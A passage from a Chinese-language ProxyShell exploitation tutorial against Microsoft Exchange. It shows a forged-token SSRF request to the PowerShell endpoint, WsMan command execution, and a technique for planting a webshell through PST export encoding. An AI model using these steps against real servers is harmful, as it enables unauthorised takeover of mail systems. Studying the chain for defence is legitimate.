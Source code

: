           *   *   *   *   * 
    
    
    
    X-Requesttype: ConnectX-Clientinfo: {2F94A2BF-A2E6-4CCCC-BF98-B5F22C542226}X-Clientapplication: Outlook/15.0.4815.1002X-Requestid: {C715155F-2BE8-44E0-BD34-2960067874C8}:2Content-Type: application/mapi-http

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093223.png)

  

3、但是我们需要通过Powershell去进行下一步攻击  

  

所以我们需要利用sid与username去计算CommonAccessToken，逆向推导比较复杂，exp的脚本中也给出了参考  

  * 

    
    
    https://github.com/dmaasland/proxyshell-poc

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093224.png)

  

将生成的token通过X-CommonAccessToken进行利用  

    
          *   *   *   *   *   * 
    
    
    
    GET https://192.168.114.12/autodiscover/autodiscover.json?a=ktacz@ygjnt.jzk/powershell/?X-Rps-CAT=VgEAVAdXaW5kb3dzQwBBCEtlcmJlcm9zTBVhZG1pbmlzdHJhdG9yQGtkYy5jb21VLFMtMS01LTIxLTU1OTAwNjY3NC0xMjIwNDAyMjE1LTE3MzUyODY4NjEtNTAwRwEAAAAHAAAADFMtMS01LTMyLTU0NEUAAAAA HTTP/1.1Host: 192.168.114.12Accept-Encoding: identityCookie: Email=autodiscover/autodiscover.json?a=ktacz@ygjnt.jzkContent-Type: application/soap+xml;charset=UTF-8Content-Length: 0

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093226.png)

  

4、通过WsMan协议，通过SOAP请求Exchange的Powershell接口发送指令  exp的作者也给出了代码  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093227.png)

  

调用wsman  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093228.png)

  

5、最后就是写入webshell，pst在导出时其使用的加密为类似异或加密模式，也就是说加密在加密就变成了明文，那么只要先使用其加密方法加密一遍我们要写入的webshell，就可以在导出时，获得明文，从而获取webshell
